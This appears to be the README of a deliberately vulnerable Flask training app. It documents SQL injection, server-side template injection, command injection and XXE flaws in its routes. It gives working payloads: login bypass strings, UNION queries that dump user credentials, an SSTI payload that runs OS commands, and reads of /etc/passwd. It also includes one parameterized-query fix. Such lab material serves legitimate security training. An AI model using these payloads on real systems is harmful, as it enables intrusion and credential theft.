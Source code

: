 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || ':' || password,role FROM users--
```

Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)

**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`

**Examples:**
```
whoami
cat /etc/passwd
```

### XML External Entity Injection (XXE)
XXE Injection allows for injection of XML entities to access or manipulate files on application.

Path: `/process_xml`
Methods: `POST`

**Example**
- On `/add_course` XML Section
```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
   <title>Test Title</title>
    <description>Test Description</description>
    <image_path>&xxe;</image_path>
</root>
```

Other resources: [XXE Cheatsheet](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
